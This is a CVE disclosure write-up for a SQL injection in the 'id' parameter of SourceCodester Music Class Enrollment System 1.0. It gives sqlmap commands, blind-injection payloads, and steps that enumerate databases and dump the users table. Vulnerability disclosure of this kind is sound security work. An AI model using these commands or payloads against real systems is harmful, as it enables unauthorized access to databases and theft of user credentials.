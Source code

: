 ```yaml
---
title: CVE-2024-6067
draft: false
tags:
  - cve
---
```

# Sourecodester Music Class Enrollment System SQL Injection vulnerability

> A vulnerability classified as critical was found in SourceCodester Music Class Enrollment System 1.0. Affected by this vulnerability is an unknown functionality of the file /mces/?p=class/view_class. The manipulation of the argument id leads to sql injection. The attack can be launched remotely. The exploit has been disclosed to the public and may be used. The associated identifier of this vulnerability is VDB-268795.


**Affected Software**: https://www.sourcecodester.com/php/15362/music-class-enrollment-site-phpoop-free-source-code.html

**Vulnerable path**: `http://localhost/mces/?p=class/view_class&id=4`

![image](https://github.com/jadu101/CVE/assets/76433661/09db7303-c570-4296-bced-f0cab23d95a1)


Tool Used: SQLmap

Commands to recreate:

`sqlmap 'http://localhost/mces/?p=class/view_class&id=4' --batch`

![image](https://github.com/jadu101/CVE/assets/76433661/7833ceba-4326-4bb0-b454-67962e45c746)


```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: p=class/view_class&id=4' AND 2160=2160 AND 'CscS'='CscS

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: p=class/view_class&id=4' AND (SELECT 6865 FROM (SELECT(SLEEP(5)))TZfN) AND 'sHBo'='sHBo
---
```

`sqlmap 'http://localhost/mces/?p=class/view_class&id=4' --batch –dbs`

![image](https://github.com/jadu101/CVE/assets/76433661/290f3bd2-3d3f-474e-b4a1-ae2458edacb7)


`sqlmap 'http://localhost/mces/?p=class/view_class&id=4' --batch -D mces_db -T users –dump`

![image](https://github.com/jadu101/CVE/assets/76433661/5802f597-a725-48b6-beb4-f86bdd959fb2)




